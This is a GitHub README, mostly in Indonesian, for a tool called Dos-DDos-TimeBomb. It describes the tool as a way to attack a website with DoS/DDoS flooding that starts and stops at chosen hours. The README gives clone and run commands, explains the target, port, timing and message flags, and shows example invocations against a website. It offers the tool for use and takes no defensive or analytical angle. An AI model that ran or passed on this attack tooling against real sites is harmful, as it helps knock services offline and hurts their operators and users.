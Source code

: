 # Dos-DDos-TimeBomb
Attack a website with timebomb and Dos / DDos

Serangan ini pencampuran antara serangan Dos dan DDos dan Time Bomb

Cara download:

git clone https://github.com/FaizTechIndo/Dos-DDos-TimeBomb.git

cd Dos-DDos-TimeBomb

chmod +x *

python3 dos-ddos-timebomb.py

Pakai: 

python3 dos-ddos-timebomb.py -t (target website) -p (portwebsite) -m (jam serangan dimulai) -s (jam serangan selesai) --message (pesan)

Fungsi:

-t  =  Untuk mengset website yang ingin dijadikan sebagai sasaran serangan bisa dengan domain, url, ip
-p  =  Untuk mengset port target website
-m  =  Untuk mengset jam waktu Dos/DDos dimulai sesuaikan dengan jam laptop/pc
-s  =  Untuk mengset jam waktu Dos/DDos selesai sesuaikan dengan laptop/pc kalian direkomendasikan waktu jam DDos/Dos selesai 1 jam
--message =  Untuk memilih pesan yang akan dijadikan sebagai pesan ampas yang akan dijadikan sebagai serangan default: random msg    
                                                                                                                                     
contoh1 : dos-ddos-timebomb.py -t https://example.com -p 80 -m 12 -s 13 --message Seraaangwebsiteetargettt                           
contoh2 : dos-ddos-timebomb.py -t (example.com -p 25 -m 12 -s 13                                                                     
                                                                                                                                     
Selamat menggunakan!!!
